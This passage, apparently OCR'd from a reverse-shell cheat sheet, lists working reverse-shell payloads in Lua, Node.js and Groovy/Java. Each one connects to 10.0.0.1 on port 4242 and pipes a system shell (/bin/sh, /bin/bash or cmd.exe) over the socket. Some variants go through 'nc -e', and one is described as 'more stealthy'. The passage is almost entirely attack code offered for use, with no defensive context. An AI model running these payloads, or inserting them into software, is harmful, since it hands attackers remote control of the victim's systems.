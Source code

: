 Windows and Linux

lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'






### NodeJS

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py




### Groovy

by frohoff NOTE: Java reverse shell also work for Groovy

String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

Groovy Alternative 1

NOTE: This is more stealthy
